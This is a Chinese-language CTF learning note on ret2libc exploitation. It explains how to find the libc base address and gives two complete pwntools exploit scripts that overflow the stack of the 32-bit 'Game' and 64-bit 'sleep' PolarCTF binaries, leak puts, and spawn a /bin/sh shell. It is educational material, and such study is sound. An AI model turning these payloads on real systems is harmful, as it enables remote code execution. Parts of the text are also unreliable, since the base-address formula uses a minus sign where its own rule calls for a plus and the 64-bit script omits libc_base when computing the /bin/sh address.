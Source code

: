 ```yaml
---
title: ret2libc
layout: doc
---
```

[[toc]]

## libc 相关知识
### 计算libc基地址
> 基地址：每次运行程序加载函数时，函数的基地址都会发生改变。这是一种地址随机化的保护机制，导致函数的真实地址每次运行都是不一样的。

> 这次运行程序的基地址 = 这次运行得到的某个函数func的真实地址  - 函数func的偏移地址 “这次！！”


libc_offset_puts 可以由pwntools的 libc.symbols['puts'] 获得 

函数的真实地址   =   libc基地址   +   偏移地址 

libc_base   = real_func - libc_offset_func

system_addr = libc_base - libc_offset_system

puts_addr   = libc_base - libc_offset_puts
### 获取plt表或者got表里的 偏移地址
```py
elf = ELF("file")
elf.plt['puts']
elf.got['puts']
```
### 通过puts打印出puts的真实地址
> 像puts(),write()这样的函数可以打印内容，我们可以直接利用这些打印函数，打印出某个函数的真实地址（即got表中存放的地址）
```py
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
ret_addr = 0xdeadbeef
# payload = b'A' * padding + p32(puts_plt) + p32(ret_addr) + p32(puts_got)
# 调用plt里的puts打印出got里的puts got里面是真实的地址 也就是 real_puts
```
> 64 位

### 通过puts计算出 libc_base
### 32位 传入参数 
填充字符 + 要跳转的函数 + 随便的函数地址 + 要跳转函数的参数

### 64位 传入参数


## 例题 32位 PolarCTFD&N Game

### 分析
```zsh
┌──(kali㉿kali)-[~/win/Downloads]
└─$ file Game
Game: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=473b0474ed2e85434ce06aa3fbde434bbdd236bf, not stripped

┌──(kali㉿kali)-[~/win/Downloads]
└─$ checksec --file=Game
[*] '/home/kali/win/Downloads/Game'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

### ida
> main

![alt text](image-13.png)

> function

![alt text](image-15.png)

> star

![alt text](image-16.png)

最终发现是在star函数里出现了溢出
NX开启
没有getshell
没有system
那就是 ret2libc 了

### exp
思路 找到libc 基地址
找到 system和 /bin/sh字符串的地址构造 rop链

```py
from pwn import *
context(arch="i386",os="linux")
file = "./Game"
io = process(file)
elf = ELF(file)

puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]

# libc_offset_puts = elf.libc.

star_addr = 0x080485F4

padding = 0x6C + 4

payload = b'a' * padding + p32(puts_plt) + p32(star_addr) + p32(puts_got) 

print(io.recvline())
io.sendline("yes")
print(io.recvline())
io.sendline("yes")
print(io.recvline())
io.sendline(payload)
io.recvline() # the print
puts_real = u32(io.recvline().strip())


libc = ELF('/lib/i386-linux-gnu/libc.so.6')
# libc 版本很重要 libcsearch 根据获得的puts_real的后三位寻找
# libc database search：https://libc.blukat.me
libc_base = puts_real - libc.symbols["puts"]
system_addr = libc_base + libc.symbols["system"]
sh_addr = libc_base + next(libc.search(b'/bin/sh'))

print(io.recvline()) # star

payload = b'a'*padding + p32(system_addr) +p32(0xdeadbeef) +p32(sh_addr)

io.sendline(payload)
io.interactive()
```


## 例题 64位 PloarCTFD&N sleep

### 分析
```zsh
┌──(kali㉿kali)-[~/win/Downloads]
└─$ file sleep
sleep: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=b42baed839564bd0484ceecd264384595f89afb5, not stripped

┌──(kali㉿kali)-[~/win/Downloads]
└─$ checksec --file=sleep
[*] '/home/kali/win/Downloads/sleep'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### ida
![alt text](image-17.png)

### exp
> pop rdi; ret
```zsh
┌──(kali㉿kali)-[~/win/Downloads]
└─$ ROPgadget --binary sleep --only "pop|ret" | grep rdi
0x0000000000400783 : pop rdi ; ret
```
```py
from pwn import *
context(arch="amd64",os="linux")
file = "./sleep"
io = process(file)
elf = ELF(file)

puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]
fun_addr = 0x00000000004006BD
rdi_ret = 0x0000000000400783
padding = 0x70 + 8

print(io.recvline())
payload = b'a'*padding + p64(rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(fun_addr)
io.sendline(payload)

puts_real = u64(io.recvline().strip().ljust(8,b"\x00"))
# 64 位 u64 8个字节， 

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc_base = puts_real - libc.symbols["puts"]
system_addr = libc_base + libc.symbols["system"]
sh_addr = next(libc.search(b"/bin/sh"))

print(io.recvline())

payload = b'a'*padding + p64(rdi_ret) + p64(sh_addr) + p64(system_addr) + p64(0xdeadbeef)


io.sendline(payload)
io.interactive()



```